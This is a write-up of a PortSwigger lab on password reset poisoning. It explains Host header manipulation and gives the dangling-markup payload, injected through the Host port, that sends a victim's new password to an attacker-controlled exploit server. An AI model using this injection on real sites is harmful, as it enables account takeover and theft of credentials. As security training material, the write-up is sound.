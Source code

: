 ## Password reset poisoning via dangling markup

**Title:** Password reset poisoning via dangling markup. [Go](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-password-reset-poisoning-via-dangling-markup)

**Description:** This lab is vulnerable to password reset poisoning via dangling markup. To solve the lab, log in to Carlos's account.

You can log in to your own account using the following credentials: `wiener:peter`. Any emails sent to this account can be read via the email client on the exploit server.

## Preface

Password reset poisoning is a technique whereby an attacker manipulates a vulnerable website into generating a password reset link pointing to a domain under their control. This behavior can be leveraged to steal the secret tokens required to reset arbitrary users' passwords and, ultimately, compromise their accounts.

**How does a password reset work?**

Virtually all websites that require a login also implement functionality that allows users to reset their password if they forget it. There are several ways of doing this, with varying degrees of security and practicality. One of the most common approaches goes something like this:

1. The user enters their username or email address and submits a password reset request.

2. The website checks that this user exists and then generates a temporary, unique, high-entropy token, which it associates with the user's account on the back-end.

3. The website sends an email to the user that contains a link for resetting their password. The user's unique reset token is included as a query parameter in the corresponding URL: `https://normal-website.com/reset?token=0a1b2c3d4e5f6g7h8i9j`. 

4. When the user visits this URL, the website checks whether the provided token is valid and uses it to determine which account is being reset. If everything is as expected, the user is given the option to enter a new password. Finally, the token is destroyed.

This process is simple enough and relatively secure in comparison to some other approaches. However, its security relies on the principle that only the intended user has access to their email inbox and, therefore, to their unique token. Password reset poisoning is a method of stealing this token in order to change another user's password.

**How to construct a password reset poisoning attack**

If the URL that is sent to the user is dynamically generated based on controllable input, such as the Host header, it may be possible to construct a password reset poisoning attack as follows:

1. The attacker obtains the victim's email address or username, as required, and submits a password reset request on their behalf. When submitting the form, they intercept the resulting HTTP request and modify the Host header so that it points to a domain that they control. For this example, we'll use `evil-user.net`.

2. The victim receives a genuine password reset email directly from the website. This seems to contain an ordinary link to reset their password and, crucially, contains a valid password reset token that is associated with their account. However, the domain name in the URL points to the attacker's server: `https://evil-user.net/reset?token=0a1b2c3d4e5f6g7h8i9j`

3. If the victim clicks this link (or it is fetched in some other way, for example, by an antivirus scanner) the password reset token will be delivered to the attacker's server.

4. The attacker can now visit the real URL for the vulnerable website and supply the victim's stolen token via the corresponding parameter. They will then be able to reset the user's password to whatever they like and subsequently log in to their account.

In a real attack, the attacker may seek to increase the probability of the victim clicking the link by first warming them up with a fake breach notification, for example.

Even if you can't control the password reset link, you can sometimes use the Host header to inject HTML into sensitive emails. Note that email clients typically don't execute JavaScript, but other HTML injection techniques like dangling markup attacks may still apply.

## Methodology

### Finding the vulnerable parameter

While solving this lab we are interested in `POST /forgot-password` endpoint.

### My thought

After going to the login page and we requested a password reset for our own account. Then we went to the exploit server and opened the email client to find the password reset email. we observed that the link in the email simply points to the generic login page and the URL does not contain a password reset token. Instead, a new password is sent directly in the email body text. In the proxy history, after studying the response to the `GET /email` request. We observed that the HTML content for our email is written to a string, but this is being sanitized using the DOMPurify library before it is rendered by the browser. In the email client, notice that we have the option to view each email as raw HTML instead. Unlike the rendered version of the email, this does not appear to be sanitized in any way. Send the `POST /forgot-password` request to Burp Repeater. We noticed that tampering with the domain name in the Host header results in a server error. However, we are able to add an arbitrary, non-numeric port to the Host header and still reach the site as normal. Sending this request will still trigger a password reset email: `Host: OUR-LAB-ID.web-security-academy.net:arbitraryport`.

In the email client, we checked the raw version of our emails. We noticed that our injected port is reflected inside a link as an unescaped, single-quoted string. This is later followed by the new password. We sent the `POST /forgot-password` request again, but this time we used the port to break out of the string and inject a dangling-markup payload pointing to our exploit server: `Host: OUR-LAB-ID.web-security-academy.net:'<a href="//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/?`. Now we should have received a new email in which most of the content is missing. After going to the exploit server and checking the access log we noticed that there is an entry for a request that begins `GET /?/login'>[...]`, which contains the rest of the email body, including the new password. In Burp Repeater, we sent the request one last time, but change the username parameter to `carlos`. Refreshing the access log and we obtained Carlos's new password from the corresponding log entry. Logging in as `carlos` using this new password to solve the lab.
